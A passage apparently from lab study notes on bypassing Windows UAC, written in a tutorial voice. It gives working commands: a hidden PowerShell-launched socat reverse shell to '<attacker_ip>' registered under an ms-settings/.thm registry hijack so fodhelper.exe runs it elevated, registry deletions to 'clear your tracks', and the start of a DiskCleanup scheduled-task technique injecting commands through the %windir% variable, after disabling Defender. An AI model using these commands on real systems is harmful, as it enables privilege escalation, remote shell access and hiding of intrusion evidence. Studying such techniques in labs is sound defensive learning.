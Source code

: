 ```C
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe
```

Clear your tracks:

```C
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC: Environment Variable Expansion
---
From the previous exploits, we can bypass UAC as most of these apps have the autoElevate flag set on on their manifests. However, if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate

Not hope is lost, in this time you will abuse the scheduled task that can be run by any user but will execute with the highest privileges available to the caller, as this does not trigger the UAC prompt when launched.

### Disk Cleanup Scheduled Task
---
For demonstration: disable Windows Defender then proceed to open Task Scheduler:

![[Bypassing UAC-16.png|600]]

- The task is configured to run with the **Users** account, which means it will inherit the privileges from the calling user.
- **Run with highest privileges** will use the highest privilege security token available to the calling user, a high IL token for an administrator.
- **Note:** this will not work for regular non-admin works as it will execute with medium IL only.

Moving to the **Action and Settings** tabs:

![[Bypassing UAC-17.png]]

The task can be run on-demand, executing the following command when invoked:

```C
%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%
```

The command depends on environment variable, you might be able to inject commands through them and execute it by starting DiskCleanup task manually.

Overriding the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`:

